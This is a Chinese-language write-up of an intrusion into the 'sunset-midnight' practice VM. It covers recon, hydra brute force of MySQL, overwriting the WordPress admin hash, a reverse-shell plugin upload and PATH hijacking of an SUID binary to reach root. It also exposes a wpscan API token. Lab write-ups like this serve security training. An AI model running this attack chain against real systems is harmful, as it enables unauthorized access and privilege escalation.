[TOC]

# 信息收集

```
arp-scan -l
```

得到ip为192.168.174.178

```
nmap -p- --min-rate 10000 192.168.174.178 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

得到端口号22，80，3306

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- 80端口用的是wprdpress框架

## 漏洞扫描



- 80端口枚举出的文件全都是和wordpress相关的
- 找到了一个用户名admin

## UDP扫描



没什么有效信息

# 端口分析

先用wpscan工具扫描一下

```
wpscan --url http://sunset-midnight/ --api-token 1cGUkN2Pxs73xaaWxT2S1SphbfmV4Es03pFYhH5m5aw  -e vt,vp,u
```

（192.168.174.178的域名是sunset-midnight，要在/etc/hosts文件中修改，不然不能打开）



发现wpscan也只是枚举了一个admin用户

```
wpscan --url http://sunset-midnight/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```

使用wpscan工具进行爆破，同时对ssh和mysql都进行密码爆破

```
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.174.178
```



得到密码robert

```
mysql -h 192.168.174.178 -uroot -p
```

执行报错



多加一个--skip-ssl参数

```
mysql -h sunset-midnight -uroot -p --skip-ssl 
```



成功连接mysql

```
use wordpress_db
show tables;
```



```
select * from wp_users;
```



使用john破解密码没有结果，突然想到我们可以直接更改数据库中的密码

```
hash-identifier
```

检验出原hash值是md5类型

```
echo -n '123456' | openssl dgst -md5
```

(-n的作用是去掉换行符，一定要去掉)

得到123456的哈希值e10adc3949ba59abbe56e057f20f883e

```
update wp_users set user_pass='e10adc3949ba59abbe56e057f20f883e' where user_login='admin'
```

这时再登录wordpress，用密码123456



成功登录

尝试在上传主题和上传插件的地方上传正确的压缩包并且插入一个木马php文件

- appearance中上传主题一直出现限制
- 在Plugins上传可以，不过都要符号wordpress的格式



- 新建一个revplugin.php文件，插入以上内容

```
zip revplugin.zip revplugin.php
```

(打包目录用-r递归)

```
unzip -l revplugin.zip
```

预览一下压缩包

- 用nc监听很不稳定，建议用metasploit的exploit/multi/handler模块



上传我们刚才制作的压缩包，安装发现我们的监听直接收到了shell

- 我们当前的用户组是www-data，属于权限较低。尝试寻找其他用户的登录凭据或者提权



发现了jose的密码，通过ssh连接登录



成功登录，结果发现这个用户的权限也不大



得到第一个flag

```
find / -perm -u=s -type f 2>/dev/null
```



两个shell中都发现了status具有suid权限，而且这个并不常见，尝试运行一下





发现和service有关系

`sh: 1:` → 使用 sh 解释器，第 1 行执行出错

 `service: not found` → **找不到 service 这个命令**

- **`which`**：只在 `PATH` 环境变量里搜**可执行程序**，输出它的二进制路径。只找命令本体。
- **`whereis`**：搜索**二进制 + man 手册 + 源码文件**，搜索固定系统目录，**不依赖 PATH**。

尝试在/tmp目录中创建一个service，并且是可执行的，写入’/bin/bash‘，导入环境变量，然后直接运行，应该就能提权

```
cd /tmp
echo '/bin/bash' > service
chmod 777 service
export PATH=/tmp:$PATH
status
```



成功提权